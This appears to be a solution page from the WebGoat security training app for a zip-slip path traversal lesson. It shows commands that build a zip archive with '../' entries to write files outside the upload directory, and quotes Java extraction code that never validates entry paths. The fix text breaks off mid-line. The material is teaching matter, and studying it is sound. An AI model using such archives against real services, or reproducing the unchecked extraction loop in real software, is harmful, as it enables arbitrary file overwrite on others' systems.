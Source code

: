 === Solution

First let's create a zip file with an image inside:

[source]
----
curl -o cat.jpg http://localhost:8080/WebGoat/images/cats/1.jpg
zip profile.zip cat.jpg
----

Now let's upload this as our profile image, we can see nothing happens as mentioned in the assignment there is a bug in the software and the result we see on the screen is:

[source]
----
Zip file extracted successfully, failed to copy image. Please contact our helpdesk.
----

Let's create a zip file which traverses all the way to the top and then back into the given directory in the assignment.

First create the directory structure:

[source, subs="macros"]
----
mkdir -p webGoatTempDir:temppath[]PathTraversal/username:user[]
cd webGoatTempDir:temppath[]PathTraversal/username:user[]
curl -o username:user[] http://localhost:8080/WebGoat/images/cats/1.jpg
zip profile.zip ../../../../../../../../webGoatTempDir:temppath[]PathTraversal/username:user[]/username:user[].jpg
----

Now if we upload this zip file, the assignment will be solved.

=== Why did this work?

In the code the developers used the following fragment:

[source%linenums]
----
ZipFile zip = new ZipFile(uploadedZipFile);
Enumeration<? extends ZipEntry> entries = zip.entries();
while (entries.hasMoreElements()) {
  ZipEntry e = entries.nextElement();
  File profilePicture = new File(uploadDirectory, e.getName());
  InputStream is = zip.getInputStream(e);
  Files.copy(is, f.toPath(), StandardCopyOption.REPLACE_EXISTING);
}
----

The fix is to make sure the resulting file in line 5 resides in the directory you expect. You can use the following method in Java:

[source]
----
File profilePicture = new File(uploadDirectory, e.getName());
if (profilePicture.

----

